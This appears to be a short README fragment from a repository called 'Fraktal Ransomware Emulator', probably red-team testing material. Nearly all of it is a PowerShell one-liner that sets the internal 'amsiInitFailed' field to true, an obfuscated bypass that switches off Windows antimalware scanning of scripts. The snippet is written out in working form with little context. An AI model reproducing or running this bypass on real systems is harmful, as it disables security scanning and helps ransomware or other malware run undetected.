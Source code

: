 # frakranemu_RETEST
Fraktal Ransomware Emulator

$a='si';$b='Am';$Ref=[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils'-f $b,$a)); $z=$Ref.GetField(('am{0}InitFailed'-f$a),'NonPublic,Static'); 

then: $z.SetValue($null,$true)
